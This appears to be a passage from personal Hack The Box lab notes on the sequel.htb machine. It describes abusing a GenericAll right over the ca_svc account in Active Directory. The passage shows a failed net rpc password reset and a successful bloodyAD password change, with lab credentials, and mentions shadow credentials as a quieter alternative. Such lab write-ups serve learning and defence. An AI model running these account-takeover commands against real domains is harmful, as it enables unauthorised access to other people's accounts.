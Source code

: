 ![after.png](after.png)


## GenericAll - Change password

We gave ryan GenericAll on `ca_svc` we should be able to change its password

This did not work
```bash
net rpc password \
  "ca_svc" 'fluffydog17!' \
  -U "sequel.htb"/"ryan"%"WqSZAF6CysDQbGb3" \
  -S "DC01.sequel.htb"
```
```
Failed to set password for 'ca_svc' with error: Access is denied..
```

But this seems to have worked
```bash
bloodyAD \
  -u "ryan" \
  -p "WqSZAF6CysDQbGb3" \
  -d "sequel.htb" \
  --host "10.10.11.51" \
  --dns "10.10.11.51" \
  set password "ca_svc" 'fluffydog17!'
```
```
[+] Password changed successfully!
```

I could verify with cme that smb and wmi are available to ca svc, but could not log in to either though, it looks like after a while I lost that access. Was it blocked somehow? Changing a password is actually quite noisy an likely to get reported. Maybe that's htb trying to tell us that we shouldn't have been lazy and should have used a shadow credentials attack. If I try to change the password again I get
```
Password can't be changed before -2 days, 23:56:58.619569 because of the minimum password age policy.
```
